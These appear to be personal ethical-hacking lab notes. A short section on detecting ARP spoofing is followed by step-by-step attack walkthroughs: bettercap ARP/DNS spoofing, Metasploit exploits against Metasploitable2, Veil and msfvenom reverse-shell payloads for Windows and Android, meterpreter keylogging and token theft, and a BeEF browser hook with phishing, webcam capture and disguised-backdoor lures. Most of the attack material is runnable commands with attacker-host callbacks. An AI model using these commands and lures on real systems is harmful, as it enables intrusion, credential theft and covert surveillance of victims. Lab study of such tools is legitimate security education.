



**Detection and Defence**

Tools: XArp
Install on the Windows VM
- Shows the IPs and MAC addresses of connected clients on the network

View network details:
```sh
ipconfig
```

```sh
arp -a
```

On our Kali machine we can run bettercap to see how XArp on the Windows machine responds.

Start bettercap
```sh
sudo bettercap -iface eth0
```

Check help menu
```sh
help
```

Get extended information on specific modules
```sh
help arp.spoof
```

Put spoof into full duplex mode so it interacts with both the access point and the Windows VM
```sh
set arp.spoof.fullduplex true
```

Manually set the target (the Windows VM)
```sh
set arp.spoof.targets <target-ip>
```

Start ARP spoof
```sh
arp.spoof on
```

In Xarp on the Windows VM the status now should change to detect the attack:



Now we can see that the ARP attack is effecting the access point or router, as well as the Windows VM. The Kali machine is also shown with a red cross. With this knowledge you can see exactly who is doing the ARP attack.
- ARP - Address Resolution Protocol

Xarp is useful when you are connected to a public Wi-Fi.

---

**Detecting attacks with WireShark**

On Windows:
Enable the settings in WireShark
- Edit Preferences > Protocols > ARP/RARP 
- Enable Detect ARP Request Storms
- Start capturing 

On Kali we can use bettercap again to start an attack:
```sh
sudo bettercap -iface eth0
```

Start net probe to discover the network
```sh
net.probe on
```

Net probe will bring up a lot of ARP requests in WireShark, on the Win VM, which could be an indicator that something malicious is happening.

Set to full duplex mode
```sh
set arp.spoof.fullduplex true
```

Set target
```sh
set arp.spoof.targets <target-ip>
```

Start spoofing
```sh
arp.spoof on
```

Optionally we can start sniffing
```sh
arp.sniff on
```

In WireShark we can get extra information by going into:
- Analysis > Expert Information

This screen will show if an ARP storm is detected. It also has a drop down menu that you can access that will show which IP is making the requests. If you look at one of the ARP packets it was also reveal the MAC address of the malicious user.

---

**Prevention**

Tools: NetStalker, npcap

1. Select network, for example ethernet
2. Click OK
3. Click scan
4. In this lab (VM) if you can't see the IP of the other machine, try changing network to NAT Network
5. Click the box for block to block the IP of the malicious user



Block will actually stop the IP from being able to use the internet and will put the device status into offline.

NetStalker also has a sniffing feature that you can use by first selecting the device in the menu.

---

**System Hacking**

All of this part is done using the intentionally vulnerable server metasploitable2.
Login credentials: msfadmin

To access the various things that the server has you can get the IP of the server and then enter it into a browser on Kali Linux.

Verify the server can be contacted on the Kali VM by utilising ping. This will verify that they are on the same netwrok.

Scanning the server with nmap to check for open ports and vulnerabilities:
```sh
nmap -T4 -A -v <target-ip>
```

**FTP**

The FTP has anonymous logging and appears to be an out of date version. After googling the version we find that metasploit has a module that installs a backdoor on the system via the out of date FTP version. 

Start metasploit
```sh
msfconsole
```

Set up the exploit
```sh
use exploit/unix/ftp/vsftpd_234_backdoor
```

Show targets
```sh
show targets
```

Set target
```sh
set TARGET <target-id>
```

Options
```sh
show options
```
- set the options as required

Set IP of target
```sh
set RHOSTS <target-ip>
```

Run exploit
```sh 
exploit
```

This gives the root user with command execution. You could now make a new user and give it root privileges and a password so you could log into the system, or anything else that you want to do. 

**SMBD**

We once again copy and paste into google to find an exploit from Rapid7:

netbios-ssn Samba smbd 3.X - 4.X exploit
- https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script/

Use exploit
```sh
msfconsole
```

```sh
use exploit/multi/samba/usermap_script
```

```sh
show targets
```

```sh
set TARGETS <target-id>
```

```sh
show options
```

Show and set targets may make the set RHOSTS option unnecessary. It looks like there's an option for automatic but you'd probably be better off using the set RHOSTS instead.

```sh
set RHOSTS <target-ip>
```

```sh
exploit
```
- I don't have Kali insalled at the moment so i can't check, but i think run also works here as well as typing exploit.

This again gives us access to the root user fully compromising the system. 

Check you have the root user
```sh
whoami
```

Discover the network with nmap
```sh
nmap 10.0.2.0/24
```

**PostgreSQL**

Search metasploit for postgrsql
```sh
msfconsole
```

```sh
search postgrsql
```
- Payload execution looks interesting. It has one for Linux and one for Windows.

We can pick an exploit by doing the following command
```sh
use 11
```

Check the exploit options
```sh
show options
```
- The options show what needs to be set under the required column.
- This particular exploit requires us to enter both our IP and the target IP. 

Setting the required options
```sh
set LHOST <attcker-ip>
```
- You can also modify what port you want it to connect back on. The default is 4444

```sh
set RHOSTS <target-ip>
```
- There is also an option to set the RHOST port which may be required if it's not running on the usual port.

```sh
exploit
```

This gives a meterpreter shell. _I have a cheat sheet located in Kali > Tools > MultiTool_

Get system info
```sh
sysinfo
```

---

**Social Engineering and Malware Development**

Tools: Veil-Framerwork

After Install error

```sh
If you have any errors running Veil, run: './Veil.py --setup' and select the nuke the wine folder option
```

Start Veil
```sh
sudo veil
```
- To generate the payload it needs admin permissions

The two options you have at first are
- Evasion - used for backdoors
- Ordinance - creating payloads

Get info on specific tool
```sh
info 1
```

Select the option required
```sh
use 1
```

Once inside the chosen tool you can list out the payloads
```sh
list
```

Select payload and view it's details
```sh
use 14
```

Set LHOST and LPORT (ifconfig)
```sh
set LHOST <attacker-ip>
```

```sh
set LPORT 4444
```
- We can use `options` to verify that the payload has been updated

If everything looks good you can generate the payload
```sh
generate
```
- It will ask you to choose a name and then start generating the payload
- It then displays the output locations of the new payload

Press enter to go back to the payload screen, or exit to quit from Veil.

You can put the file in your Kali server so that you can access it easily while exploiting a sysytem or redirect a target to the Kali server that is serving the new payload. `var/www/html/payload.exe`

Using it with Metasploit:
```sh
msfconsole
```

```sh
use exploit/multi/handler
```

```sh
set PAYLOAD windows/meterpreter/reverse_http
```
- Try, if you get an error, using `windows/meterpreter/reverse_https`

```sh
show options
```

```sh
set LHOSTS <attacker-ip>
```

```sh
exploit
```

Start apache2 server
```sh
sudo service apache2 start
```

Now if we use the Windows VM and go to the server `<attacker-ip/payload.exe>` it will automatically download the file.

If the user clicks to run the program it will open a meterpreter shell on our Kali machine.

Background the meterpreter shell
```sh
background
```

Re-launch the session
```sh
sessions -i 1
```
- i - id number


**MSFVenom**

Create windows payload in MSFVenom
```sh
sudo msfvenom -p windows/meterpreter/reverse_tcp --platform windows -f exe LHOST=<attacker-ip> LPORT=4444 -o /home/payload.exe
```
- Once again we can copy this into our server for easy access.

Move into server
```sh
sudo mv /home/payload.exe /var/www/html/payloads/
```

Set up the listener 
```sh
msfconsole
```

```sh
use exploit/multi/handler
```

```sh
set PAYLOAD windows/meterpreter/reverse_tcp
```

```sh
set LHOSTS <attacker-ip>
```

You can use the `help` command to list what meterpreter can do

Some basic things we can do:

Get system info
```sh
sysinfo
```

Make a directory
```sh
mkdir hello
```

Delete directory
```sh
rmdir hello
```

See what user we are running as
```sh
getuid
```

Capture keyboard
```sh
keyscan_start
```

Stop capturing keyboard
```sh
keyscan_stop
```

Attempts to steal an impersonation token
```sh
steal_token
```

Display the network connections
```sh
netstat
```

Take screenshot
```sh
screenshot
```

Migrate the server to another process
```sh
migrate
```
- Doesn't always work

---

**Hacking an Android phone**

Tools: Vysor

You need to change the network from Nat Network to Bridged Adaptor so it can identify the Android phone.

Find the Android device
```sh
sudo netdiscover -i eth0 -r <attacker-ip>
```

Find out the Android devices IP by using termux listed under wlan0 It will also show the Kali machine's IP.

Enable the Kali server so we can transfer files:
```sh
sudo service apach2 start
```

Create a payload 
```sh
sudo msfvenom -p android/meterpreter/reverse_tcp LHOST=<attacker-ip> LPORT=4444 -o /var/www/html/payloads/A51.apk
```
- Android extensions - .apk

_This could be a wrong command but i'll add it so i can try it later_
```sh
sudo msfvenom -p android/meterpreter/reverse_tcp LHOST=<attacker-ip> LPORT=4444 R > /var/www/html/payloads/A51.apk
```
- Maybe the capital R stands for redirect but i don't know until i try it.

Open Metasploit and set-up a listener but this time for an Android device:
```sh
msfconsole
```

```sh
use exploit/multi/handler
```

```sh
set PAYLOAD android/meterpreter/reverse_tcp
```
- payload is not case sensitive so you don't have to make it all caps, it will still work in lowercase

Again we check options to see what needs to be set. Then set the LHOST as the attacker IP. Exploit to start the listener.

Now if we navigate to the Kali sever and download the file (we would need to use something like social engineering if this was a real target) we can run it and get the meterpreter shell.

After installing the file you can run the App which is called MainActivity.  

---

**BeEF Framework**

Start beef
```sh
sudo beef-xss
```

Login details:
User: beef
Pass: asks you to create one when you first launch the framework

Beef will display a local address that you copy and launch in your browser:
```sh
127.0.0.1:3000/ui/panel
```

In the same section it tells you your beef hook which you use to hook targets browsers.:
```java
<script src="http://<attacker-ip>:3000/hook.js"></script>
```

How to insatll
```sh
sudo apt install beef-xss
```

We can test it on our Windows VM. Make sure to switch Kali back to Nat Network. 

We can put our hook in the html file on our server. We'll make a simple page and add our hook to the code.

```html
<h1>Hello From My Basic Webpage!</h1>
<script src="http://<attacker-ip>:3000/hook.js"></script>
```

We could use bettercap to redirect a target to our new beef hook web-page:

Start bettercap
```sh
sudo bettercap -iface eth0
```

Start probe
```sh
net.probe on
```

Show network details
```sh
net.show
```

Set target (i may need to activate full duplex)
```sh
set net.spoof.targets <target-ip>
```

Start spoof
```sh
net.spoof on
```

Optionally, start sniffing the network
```sh
net.sniff on
```

Start our Kali server
```sh
sudo service apach2 start
```

Setup the re-direction
```sh
set dns.spoof.domains mywebsite.com
```
- Here it would be better to use something like `google.com` as the domain. You could also use a tool, like SET or httrack, to create a copy of google.com so it looks more legit.

Start DNS spoof 
```sh
dns.spoof on
```

Start beef
```sh
sudo beef-xss
```

Now we can go to `mywebsite.com` on the Windows VM which should add the computer to our beef panel UI. Try refreshing the beef panel if it doesn't show up.

Some of the most important things that you can do in beef are located in the commands tab.

Here are some of the commands:
- Spider Eye - Take a picture of the browser window.
	- you can see the results in `module results history` by clicking on the command listed
- WebCam HTML5 - Captures webcam images
- Play Sound - Play a pre-selected sound from the attacker's PC
- Create Alert  - Write a message to the victims browser

Hacking a google account with phishing located in the commands tab under social engineering Google Phishing.



We can also use the module Pretty Theft to try and gain passwords for various websites. It's located in the same place as the Google Phishing command. This will bring up a pop up box, not the full web-page.

If you have sniffing running on bettercap and you have cloned a website with SET, you can always sniff the password as well because it won't be secure. 

Fake Notification Bar (located in Social Engineering) - Attempt to get the target to install  a backdoor into their system.  

Modify the command:
```sh
http://<attacker-ip>/<path-to-file>
```
- You'd rename the back-door to something like `audio_driver.exe`
- I need to check this, but the default IP might be what is used here, not the attacker IP
- You could then re-write the message to say something like "Your Audio Driver Needs Updating, Please Install"
- You may need to remove the port in the default settings
- I think you'd need to have apache2 serving the file for this to work.

Another command to get something on the victims computer is `Lcamtuf Download`
- Add the malicious file path.
- This will automatically download the file without any user input.

Another way is using `Fake Flash Update`

As you can see there is a lot of things that can be done with just a few tools.

